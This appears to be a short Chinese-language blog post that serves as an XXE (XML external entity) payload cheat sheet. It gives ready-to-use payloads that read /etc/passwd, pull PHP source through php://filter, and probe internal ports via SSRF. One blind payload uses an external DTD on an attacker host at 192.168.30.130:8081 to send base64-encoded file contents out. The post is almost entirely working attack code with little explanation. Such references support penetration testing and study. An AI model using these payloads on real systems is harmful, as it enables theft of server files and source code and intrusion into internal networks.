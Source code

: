 ```yaml
---
layout: post
title: XXE
subtitle: XXE
date: 2024-11-03 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

# XXE payload

1、**有回显—读服务器文件：**

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

2、**无回显-读取文件** 

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>

test.dtd:
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://10.165.89.150:88">]>

<name>&content;</name>
```

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```

